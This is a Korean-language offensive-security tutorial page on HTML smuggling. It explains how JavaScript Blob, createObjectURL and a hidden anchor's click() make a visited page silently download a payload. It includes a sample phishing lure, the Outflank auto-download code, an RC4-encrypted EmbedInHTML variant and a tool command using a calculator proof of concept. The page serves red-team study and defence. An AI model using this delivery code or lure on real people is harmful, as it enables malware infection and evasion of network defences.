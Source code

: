 # HTML 스머글링 (Smuggling)

출처와 중요 레퍼런스 - [https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/)

HTML 스머글링 (HTML Smuggling)은 자바스크립트와 HTML5의 download, anchor, click 등의 특성을 이용해 유저가 특정 HTML 페이지를 방문시 자동으로 파일을 다운 받도록 하는 기법이다.

1. HTML5 anchor 태그에는 download 라는 특성이 있다. 이 특성은 anchor 태그에 URL 형식으로 링크된 파일을 클라이언트가 다운로드 받도록 한다.
2. 자바스크립트의 Javascript Blob은 raw 데이터를 octet/stream 형태로 저장할 수 있게 해준다. 그 뒤 이 데이터는 createObjectURL을 통해 URL 형식으로 anchor 태그에 링크 될 수 있다.
3. 자바스크립트의 HTMLElement.click 함수는 anchor 태그에 링크된 파일을 자동으로 클릭해 다운로드 받게 한다.

위 3가지를 모두 합치면 HTML 페이지를 방문만 해도 페이로드가 다운로드 되도록 할 수 있다. HTML 스머글링은 다른 초기 침투 페이로드와 같이 사용되어 클라이언트의 디스크에 maldoc, XLL, DLL, HTA, JScript, ISO, ZIP 등의 파일들이 다운로드 되도록 한다.

고급화된 피싱 공격에서는 다음과 같이 HTML 스머글링을 이용하기도 한다.

* "<회사> 징계위원회입니다. 귀하와 관련된 익명의 신고가 접수되었으니 안전한 문서 접근을 위해 Safe URL 으로 가서 passcode: 1234를 입력한 뒤, 징계 문서를 확인주세요 -> \<HTML Smuggling 페이지 링크>"
* 피해자가 링크 클릭 -> HTML Smuggling 으로 문서 다운로드
* 문서를 여는 순간 페이로드 실행

### 장점

HTML 스머글링의 장점은 바로 호스트와 방어 기술들의 입장에서는 의심될만한 것이 많이 없다는 것이다. 아래는 Outflank 사의 블로그 포스트에서 가져온 이미지다:

![https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](<../.gitbook/assets/image (28).png>)

타겟의 프록시/방화벽의 입장에서는 피해자 호스트가 단순한 HTML 페이지를 방문하는 것처럼 보인다. MIME Type도 text/html밖에 없고, 로드되는 코드들도 클라이언트-사이드의 자바스크립트 밖에 없다. 요새 자바스크립트 없는 웹 페이지가 없다보니 이상한 점은 없어보인다.

브라우저의 입장에서도 단순한 HTML과 자바스크립트가 로드되다보니 이상한 점은 없다. 브라우저는 HTML5와 자바스크립트의 기본적인 함수들을 이용해 하라는대로, 파일을 다운로드 한다.

### 코드

기본적인 코드는 base64 스트링을 디코딩해 Javascript blob로 만들고, 이를 anchor 태그에 URL 형식으로 걸어놓은 뒤 HTMLElement.click() 함수를 이용해 이를 다운 받는 코드다.

<details>

<summary>Outflank blog source code</summary>

```
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array( len );
  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
  return bytes.buffer;
}

var file ='<< BASE64 ENCODING OF MALICIOUS FILE >>';
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'outflank.doc';

if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
else {
  var a = document.createElement('a');
  document.body.appendChild(a);
  a.style = 'display: none';
  var url = window.URL.createObjectURL(blob);
  a.href = url;
  a.download = fileName;
  a.click();
  window.URL.revokeObjectURL(url);
}
```

`base64ToArryBuffer` 함수를 이용해 base64 인코딩된 문자열을 ArrayBuffer 로 만든 뒤, 이를 new Blob 에다가 넣어 자바스크립트 데이터 Blob를 생성한다.

그 뒤 anchor 태그를 생성하고, `var url = window.URL.createObjectURL(blob)` 을 이용해 anchor 태그에 위에서 만든 Blob를 걸어준 뒤, `a.download` 및 `a.click` 으로 클라이언트 브라우저가 자동으로 파일을 다운받도록 한다.

</details>

위에서 살펴본 코드도 좋지만, 작전보안을 위해 파일을 암호화 한 뒤, 클라이언트 브라우저가 다운 받는 런타임 도중 복호화 해 다운 받도록 암호화를 추가하는 방법도 있다.

<details>

<summary>EmbedinHTML - AES Encryption</summary>

```
function rc4Function(r,o){for(var t,e=[],n=0,a="",f=0;f<256;f++)e[f]=f;for(f=0;f<256;f++)n=(n+e[f]+r.charCodeAt(f%r.length))%256,t=e[f],e[f]=e[n],e[n]=t;f=0,n=0;for(var h=0;h<o.length;h++)n=(n+e[f=(f+1)%256])%256,t=e[f],e[f]=e[n],e[n]=t,a+=String.fromCharCode(o.charCodeAt(h)^e[(e[f]+e[n])%256]);return a;}
function b64AndRC4Function(r,o){var s=[],j=0,x,res='';for(var i=0;i<256;i++)s[i]=i;for(i=0;i<256;i++)j=(j+s[i]+r.charCodeAt(i%r.length))%256,x=s[i],s[i]=s[j],s[j]=x;i=0;j=0;var data=atob(o);var dataLength=data.length;var array=new Uint8Array(new ArrayBuffer(dataLength));for(var y=0;y<dataLength;y++)i=(i+1)%256,j=(j+s[i])%256,x=s[i],s[i]=s[j],s[j]=x,array[y]=data.charCodeAt(y)^s[(s[i]+s[j])% 256];return array;}

var keyFunction = function(){return "test"};

var varPayload = "<base64ed-file-string>";

var varBlob = new Blob([b64AndRC4Function(keyFunction(), varPayload)], {type: "application/vnd.ms-excel"});
var varBlobShim = '(function(b,fname){if(window.navigator.msSaveOrOpenBlob)window.navigator.msSaveOrOpenBlob(b,fname);else{var a=window.document.createElement("a");a.href=window.URL.createObjectURL(b, {type:"application/vnd.ms-excel"});a.download=fname;document.body.appendChild(a);a.click();document.body.removeChild(a);}})';
setTimeout(varBlobShim+'(varBlob, "calc.xll")');
```

</details>

암호화 함수들인 `rc4Function` 과 `b64AndRC4Function` 을 추가한다. 그 뒤, keyFunction 에서 간단한 암호화 키인 "test" 를 지정한다. 이후 암호화되어 있던 `varPayload` 를 `b64AndRC4Function` 으로 복호화 한다. 그 뒤, `varBlobShim` 에서는 위 OutFlank 소스코드에 있던 anchor 태그, Download 특성, createObjectURL 등을 추가하는 자바스크립트 함수를 만든다. 그 뒤, 이를 실행하면 런타임 중 복호화를 진행한 뒤 파일을 다운받게 된다.

### 실습

실습에서는 EmbedinHTML 툴을 사용한다. 오래된 툴이라 파이썬 2.7을 사용해야한다. PoC를 위해 기본 코드 실행인 계산기를 실행하는 페이로드를 이용한다.

```
python2.7 embedInHTML.py -f ./payloads_examples/calc.xll -o test.html -w -k testkey
```

![](<../.gitbook/assets/htmlsmuggling-demo2 (1).gif>)

### 레퍼런스

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained/" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}
